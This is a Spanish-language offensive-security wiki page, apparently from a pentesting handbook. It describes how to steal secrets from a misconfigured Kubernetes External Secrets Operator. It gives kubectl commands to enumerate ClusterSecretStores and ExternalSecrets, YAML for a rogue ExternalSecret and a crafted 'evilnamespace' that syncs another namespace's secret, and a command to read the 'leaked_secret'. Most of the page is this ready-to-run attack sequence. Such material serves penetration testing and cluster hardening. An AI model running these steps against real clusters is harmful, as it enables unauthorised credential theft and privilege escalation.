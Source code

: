 # Operador de Secretos Externos

**El autor original de esta página es** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Esta página proporciona algunas indicaciones sobre cómo puedes lograr robar secretos de un ESO mal configurado o de una aplicación que utiliza ESO para sincronizar sus secretos.

## Descargo de responsabilidad

La técnica mostrada a continuación solo puede funcionar cuando se cumplen ciertas circunstancias. Por ejemplo, depende de los requisitos necesarios para permitir que un secreto se sincronice en un espacio de nombres que posees / comprometido. Debes descubrirlo por ti mismo.

## Requisitos previos

1. Un punto de apoyo en un clúster de kubernetes / openshift con privilegios de administrador en un espacio de nombres
2. Acceso de lectura al menos a ExternalSecret a nivel de clúster
3. Descubre si hay etiquetas / anotaciones requeridas o membresía de grupo necesaria que permita a ESO sincronizar tu secreto. Si tienes suerte, puedes robar libremente cualquier secreto definido.

### Recopilación de información sobre el ClusterSecretStore existente

Suponiendo que tienes un usuario con suficientes derechos para leer este recurso; comienza primero listando los _**ClusterSecretStores**_ existentes.
```sh
kubectl get ClusterSecretStore
```
### Enumeración de ExternalSecret

Supongamos que encontraste un ClusterSecretStore llamado _**mystore**_. Continúa enumerando sus externalsecret asociados.
```sh
kubectl get externalsecret -A | grep mystore
```
_Este recurso está limitado al espacio de nombres, por lo que a menos que ya sepas en qué espacio de nombres buscar, agrega la opción -A para buscar en todos los espacios de nombres._

Deberías obtener una lista de externalsecret definidos. Vamos a suponer que encontraste un objeto externalsecret llamado _**mysecret**_ definido y utilizado por el espacio de nombres _**mynamespace**_. Recopila un poco más de información sobre qué tipo de secreto contiene.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Ensamblar las piezas

Desde aquí puedes obtener el nombre de uno o varios nombres de secretos (como se define en el recurso Secret). Obtendrás una salida similar a:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
```md
* Nombre de un ClusterSecretStore
* Nombre de un ExternalSecret
* Nombre del secreto

Ahora que tenemos todo lo que necesitamos, puedes crear un ExternalSecret (y eventualmente parchear/crear un nuevo Namespace para cumplir con los requisitos necesarios para sincronizar tu nuevo secreto):
```
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Después de unos minutos, si se cumplen las condiciones de sincronización, deberías poder ver el secreto filtrado dentro de tu espacio de nombres.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referencias

{% embed url="https://external-secrets.io/latest/" %}

{% embed url="https://github.com/external-secrets/external-secrets" %}
